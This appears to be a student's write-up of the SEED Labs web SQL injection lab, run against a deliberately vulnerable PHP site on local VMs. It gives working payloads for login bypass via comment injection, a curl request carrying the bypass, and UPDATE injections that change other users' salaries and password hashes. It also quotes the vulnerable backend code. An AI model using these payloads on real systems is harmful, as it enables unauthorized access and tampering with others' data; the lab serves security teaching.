





Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_SQL_Injection.pdf

# Set-up

2 VMs:

- attacker: `10.0.2.15`
- server: `10.0.2.4`

Edit the DNS record in `/etc/hosts` on the attacker:

```
10.0.2.4       www.SeedLabSQLInjection.com
```

# Task 1

Log in MYSQL:

```
mysql -u root -pseedubuntu
mysql> use Users;
mysql> show tables;
```

Use such a SQL query:

```sql
select * from credential where Name = 'Alice';
```


# Task 2

## Task 2.1

- **USERNAME**: `"Admin' #"`
- **PASSWORD**: `"xyz"` whatever you like, it doesn't matter.

It will result in a SQL query as:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='xyz'
```

Then statements after `#` will be regarded as comments. So we can log in as `Admin`.



## Task 2.2

```
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
```

It will return a bunch of `html` code. when exporting outputs to file by `> temp.html` and open it, it looks like:



It contains all information we need but lacks the layout controls by a specified `CSS` file.

## Task 2.3

We need to inject such a statement to append a row to current database:

```sql
INSERT INTO credential (name, eid) VALUES ('YJSNPI','114514');
```

So construct:

- **USERNAME**: `"a' OR 1=1; INSERT INTO credential (name, eid) VALUES ('YJSNPI','114514') #"`
- **PASSWORD**: `""` (remain blank)

It fails and alerts with a syntax error:



Because in PHP's `mysqli` extension, which invokes [`mysqli::query`](https://www.php.net/manual/en/mysqli.query.php) API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.

# Task 3

It's hard to find the navigation buttons on this website (www.SeedLabSQLInjection.com).

In order to edit the profile, please log in and then jump to the link address: http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php by hand.

# Task 3.1

Log in with Alice's username and password, enter http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php

Modify **Phone Number** as `', Salary=1000000` and save.

## Task 3.2

Log in with username `Boby' #` and arbitrary password, open his profile edit page.

Fill in with:

**Phone Number**: `', Salary=0`

And keep other properties unchanged. Submit the modification.

Now, you can see:



### Log-in as Alice

Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.

We should change the **Phone Number** as

```
', Salary=1 where name='Boby' #
```

## Task 3.3

Of course, the simplest approach is to log-in as Boby like [Task 3.2](#task-32) and change the password.

If we must do all things and keep log-in with Alice's own account. We might face such an issue:

According to code below in `unsafe_edit_backend.php`, if **Password** is to be updated, the session's `pwd` will be updated first, which makes our user authentication invalid immediately and the modification dropped. So we cannot modify the password field directly using Alice's authentication.

```php
$conn = getDB();
// Don't do this, this is not safe against SQL injection attack
$sql="";
if($input_pwd!=''){
// In case password field is not empty.
$hashed_ = sha1($input_pwd);
//Update the password stored in the session.
$_SESSION['pwd']=$hashed_pwd;
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
}else{
// if passowrd field is empty.
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
}
$conn->query($sql);
$conn->close();
header("Location: unsafe_home.php");
exit();
```

We should do all things in **Phone Number** field.

Assume we want to change Boby's password as `soudayo`. First, we should get SHA1 value of our new password via some [online tool](http://www.sha1-online.com/) as

```
c0b656d5e415ca1a8e098a408f913ec229e120b6
```

Then construct **Phone Number** as:

```
', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
```

and save. Now, the change works. You can log in with username `Boby` and password `soudayo`.

Verify:

